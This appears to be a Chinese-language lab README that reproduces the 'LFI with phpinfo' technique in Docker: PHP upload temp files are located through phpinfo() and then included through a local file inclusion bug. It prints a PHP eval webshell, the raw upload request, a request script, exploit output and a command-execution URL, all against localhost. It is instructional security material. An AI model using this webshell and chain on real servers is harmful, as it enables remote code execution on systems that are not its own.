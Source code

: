 # LFI with phpinfo

原理: 利用php post上传文件产生临时文件，phpinfo()读临时文件的路径和名字，本地包含漏洞生成1句话后门

demo: 源码存放在 code目录下， 利用docker再现

参考：

[http://gynvael.coldwind.pl/download.php?f=PHP_LFI_rfc1867_temporary_files.pdf][1]

[http://www.insomniasec.com/publications/LFI%20With%20PHPInfo%20Assistance.pdf][2]

## php 上传

向服务器上任意php文件**post请求上传文件**时，都会生成临时文件，可以直接在phpinfo页面找到临时文件的路径及名字。

* post上传文件

php post方式上传任意文件，服务器都会创建临时文件来保存文件内容。

在HTTP协议中为了方便进行文件传输，规定了一种基于表单的[ HTML文件传输方法 ][3]

其中要确保上传表单的属性是 enctype=”multipart/form-data，必须用POST 参见: [ php file-upload.post-method ][5] 

其中PHP引擎对enctype=”multipart/form-data”这种请求的处理过程如下：

‍1、请求到达；

‍2、创建临时文件，并写入上传文件的内容；

‍3、调用相应PHP脚本进行处理，如校验名称、大小等；

‍4、删除临时文件。

PHP引擎会首先将文件内容保存到临时文件，然后进行相应的操作。临时文件的名称是 php+随机字符 。

* $_FILES信息，包括临时文件路径、名称

在PHP中，有超全局变量$_FILES,保存上传文件的信息，包括文件名、类型、临时文件名、错误代号、大小


## 手工测试phpinfo()获取临时文件路径

* html表单

文件 upload.html

```
<!doctype html>
<html>
<body>
    <form action="phpinfo.php" method="POST" enctype="multipart/form-data">
    <h3> Test upload tmp file</h3>
    <label for="file">Filename:</label>
    <input type="file" name="file"/><br/>
    <input type="submit" name="submit" value="Submit" />
</form>
</body>
</html>
```

* 浏览器访问 upload.html, 上传文件 file.txt

```
<?php
eval($_REQUEST["cmd"]);
?>
```

* burp 查看POST 信息如下

```
POST /LFI_phpinfo/phpinfo.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:44.0) Gecko/20100101 Firefox/44.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1/LFI_phpinfo/upload.html
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------11008921013555437861019615112
Content-Length: 368

-----------------------------11008921013555437861019615112
Content-Disposition: form-data; name="file"; filename="file.txt"
Content-Type: text/plain

<?php
eval($_REQUEST["cmd"]);
?>

-----------------------------11008921013555437861019615112
Content-Disposition: form-data; name="submit"

Submit
-----------------------------11008921013555437861019615112--
```

* phpinfo获得如下信息：

```
_REQUEST["submit"]	
    Submit
    
_POST["submit"]	
    Submit
    
_FILES["file"]	
    Array
    (
        [name] => file.txt
        [type] => text/plain
        [tmp_name] => /tmp/phpufdCHh
        [error] => 0
        [size] => 33
    )
```

得到tmp_name 路径

## python 程序查看

```
import requests

host = '127.0.0.1'
url = 'http://{ip}/LFI_phpinfo/phpinfo.php'.format(ip=host)
file_ = '/var/www/LFI_phpinfo/file.txt'

response = requests.post(url, files={"name": open(file_, 'rb')})

print(response.text)
```

* 结果

```
<tr><td class="e">_FILES["name"]</td><td class="v"><pre>Array
(
    [name] =&gt; file.txt
    [type] =&gt; 
    [tmp_name] =&gt; /tmp/php7EvBv3
    [error] =&gt; 0
    [size] =&gt; 33
)
```

## 临时文件的权限

```
-rw------- 1 www-data www-data 91 Feb 25 18:10 phpkO4ITS
```

## 本地搭建 demo

* get shell

```
$ python lfi_phpinfo.py 127.0.0.1

LFI with phpinfo()
==============================
INFO:__main__:Getting initial offset ...
INFO:__main__:found [tmp_name] at 67801
INFO:__main__:
Got it! Shell created in /tmp/g
INFO:__main__:Wowo! \m/
INFO:__main__:Shutting down...
```

* firefox 访问 

```
http://127.0.0.1/LFI_phpinfo/lfi.php?load=/tmp/gc&f=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
``` 

## docker 构建

* 镜像源

-- [php:5.6-apache 官方源][3]
或
-- [][4]

php:5.6-apache 官方源

```
With Apache
More commonly, you will probably want to run PHP in conjunction with Apache httpd. Conveniently, there's a version of the PHP container that's packaged with the Apache web server.

Create a Dockerfile in your PHP project
FROM php:5.6-apache
COPY src/ /var/www/html/
Where src/ is the directory containing all your php code. Then, run the commands to build and run the Docker image:

$ docker build -t my-php-app .
$ docker run -d --name my-running-app my-php-app
We recommend that you add a custom php.ini configuration. COPY it into /usr/local/etc/php by adding one more line to the Dockerfile above and running the same commands to build and run:

FROM php:5.6-apache
COPY config/php.ini /usr/local/etc/php/
COPY src/ /var/www/html/
Where src/ is the directory containing all your php code and config/ contains your php.ini file.
```

* 构建

切换到web目录下

```
cd web
```

--docker run test

```
docker run --rm -v code/:/var/www/html -p 80:80 php:5.6-apache
```

--docker image build

```
docker build -t "janes/lfi_phpinfo"
docker run --rm -p "80:80" janes/lfi_phpinfo
```

--docker-compose

```
docker-compose up
```

[1]: http://gynvael.coldwind.pl/download.php?f=PHP_LFI_rfc1867_temporary_files.pdf
[2]: http://www.insomniasec.com/publications/LFI%20With%20PHPInfo%20Assistance.pdf
[3]: https://hub.docker.com/_/php/
[4]: 